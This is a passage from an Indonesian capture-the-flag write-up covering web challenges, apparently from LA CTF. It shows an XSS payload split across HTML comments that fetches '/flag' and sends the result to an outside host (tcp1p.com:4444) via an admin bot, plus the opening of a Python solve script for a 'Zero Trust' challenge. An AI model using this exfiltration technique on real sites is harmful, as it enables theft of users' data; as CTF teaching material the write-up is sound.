 ```
*/"//tc"+/*
*/"p1p"+/*
*/".com"+/*
*/":44"+/*
*/"44?"+/*
*/a))/*
*/'>
```

Payload diatas akan menjadi seperti ini setelah kita submit:

![](https://i.imgur.com/xkHZu3m.png)

Ketikan kita ekstrak script pada `onerror` tersebut maka kita akan mendapatkan script js yang valid seperti dibawah ini, yang berarti XSS kita akan berjalan dengan benar.

```javascript
/*</label></li><li><input type="checkbox" id="item2"><label for="item2">*/fetch(/*</label></li><li><input type="checkbox" id="item3"><label for="item3">*/"/flag")/*</label></li><li><input type="checkbox" id="item4"><label for="item4">*/.then(/*</label></li><li><input type="checkbox" id="item5"><label for="item5">*/(a)=>a./*</label></li><li><input type="checkbox" id="item6"><label for="item6">*/text()/*</label></li><li><input type="checkbox" id="item7"><label for="item7">*/.then(/*</label></li><li><input type="checkbox" id="item8"><label for="item8">*/(a)=>/*</label></li><li><input type="checkbox" id="item9"><label for="item9">*/location/*</label></li><li><input type="checkbox" id="item10"><label for="item10">*/.href=/*</label></li><li><input type="checkbox" id="item11"><label for="item11">*/"htt"+/*</label></li><li><input type="checkbox" id="item12"><label for="item12">*/"p:"+/*</label></li><li><input type="checkbox" id="item13"><label for="item13">*/"//tc"+/*</label></li><li><input type="checkbox" id="item14"><label for="item14">*/"p1p"+/*</label></li><li><input type="checkbox" id="item15"><label for="item15">*/".com"+/*</label></li><li><input type="checkbox" id="item16"><label for="item16">*/":44"+/*</label></li><li><input type="checkbox" id="item17"><label for="item17">*/"44?"+/*</label></li><li><input type="checkbox" id="item18"><label for="item18">*/a))/*</label></li><li><input type="checkbox" id="item19"><label for="item19">*/
```

Sekarang kita kirim url hasil dari submit payload kita ke bot admin.

`example url that we goint to send to admin bot`
```
https://hptla.lac.tf/view.html#c5bf2790-ed14-43af-9b8c-80f28aba90c5
```

dan kita akan mendapatkan flagnya.

![](https://i.imgur.com/hCMoG2a.png)

## Zero Trust - web

Zero truest solve script:

```python
from base64 import b64decode, b64encode
from urllib.parse import unquote
import requests

URL = "https://zero-trust.lac.tf/"


def xor(a, b):
    return bytes(aa ^ bb for aa, bb in zip(a, b))


def get_cookie(url=URL):
    res = requests.get(url)
    return res.cookies.get("auth")


auth = get_cookie()
```